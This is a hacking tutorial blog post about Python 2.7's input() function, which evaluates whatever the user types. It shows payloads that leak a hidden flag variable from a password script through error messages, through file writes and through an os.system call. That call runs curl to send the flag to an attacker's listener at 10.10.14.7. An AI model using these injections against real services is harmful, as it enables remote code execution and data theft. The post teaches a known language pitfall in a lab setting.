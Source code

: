 ```yaml
---
title: Python - Hacking with style - input
description: Magic python input to compromise scripts
categories: python
author: Xh4H
tags: python proof-of-concept shell input vulnerability
---
```


This is the second part of [Python 2.7 input security issues](https://posts.xh4h.com/python/2019/08/02/input_poc.html) post.

In this post we will see what can be done appart from spawning a shell.

# Getting variable values

## Case 1 - string variable:

We are given a piece of code with hidden variable values:

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

if input("Password > ") == password:
	print "Awesome!"
else:
	print "Wrong!"
```

This simple script generates a 11 char length string, and we have to guess it.

There's `flag` variable, and we are interested on getting it's value.

A simple method is generating an error using that variable with `input`:

<div style="text-align:center"><img src="/assets/images/python2_image_1.png" /></div>

By attempting to parse to int a string that is not solely filled by numbers we will get an exception error, and since it did not get handled, we get the raw error output, containing, so, the variable content.

`1_am_s0_1nT3r3stinG`

## Case 2 - numeric variable:

In the following scenario the flag will only be numbers. We will re-use the same code from `Case 1`.

<div style="text-align:center"><img src="/assets/images/python2_image_2.png" /></div>

In this case we can't take advantage of parse to int feature, oh well, maybe we can...

<div style="text-align:center"><img src="/assets/images/python2_image_3.png" /></div>

What we did above is pretty simple. Given a string variable filled by numbers, we can concatenate a non-numeric character and afterwards parse to int the variable, getting so, our flag (removing, of course, the last character we added).

`123542562362161346`

## Case 3 - exceptions handled:

We took advantage of non-existant exception handling in the previous 2 cases.

Now we are given a script that is handling any exception. How can we get our precious flag?

```py
import string, random

flag = "xxxxxxxxxxxxxxxxxxxxxxxxxxxx"
password = ''.join(random.choice(string.ascii_lowercase) for i in range(11))

try:
	if input("Password > ") == password:
		print "Awesome!"
	else:
		print "Wrong!"
except Exception as e:
	print "What are you doing?!"
```

If we put into practice the previous technique, we will get the `What are you doing?!` print, since any exception is being handled now.

We are going to have a look at **three** different techniques.

_Please note, the following cases can also be solved with `Case 3.1`, but the aim is having different cases to explore different possibilities._

### Case 3.1 - Re-using input function over and over ...

First let's understand how `input` function is used:

```py
input("Hey, write something here: ")
```

This piece of code will print ``Hey, write something here: `` and then ask for user input.

Since it is expecting a string, we can pass the flag as parameter.

<div style="text-align:center"><img src="/assets/images/python2_image_4.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.2 - Having access to the script location

If we have, let's say `ssh` access to the server where the script is being hosted, we can output the flag variable content to a file, and then read it.

With the following input, we will create a file called `my_flag` and write the flag to it.

```py
open("my_flag", "w").write(flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_5.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

### Case 3.3 - Remote connection? CURL it to me please!

Final case, let's imagine that this script is listening in port 8000. We don't have access to the server, we are establishing a connection using netcat `nc`.

We can execute a system command and curl the content of a variable through our pc.

First, set up an http listener using port 80:

```sh
python -m SimpleHTTPServer 80
```

Second, figure out our IP address. We have to take into account whether we are in a private network to access the server where that script is located.
Let's say we used an `OpenVPN` profile to be able to `netcat` to the target server. It is very likely that the target server won't have access to external IPs, therefore we will have to get our tunnel IP (tun0).

```sh
ifconfig tun0
```

<div style="text-align:center"><img src="/assets/images/python2_image_6.png" /></div>

We are going to use the following IP: ``10.10.14.7``.

We are now ready to retrieve that flag!

With the following line, we will be able to execute a bash system command, call curl appending the flag to the url:

```py
__import__('os').system("curl http://10.10.14.7/" + flag)
```

<div style="text-align:center"><img src="/assets/images/python2_image_7.png" /></div>

``3xc3pt10n_h4ndl1ng?s0_funny!``

<br>
<br>

Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>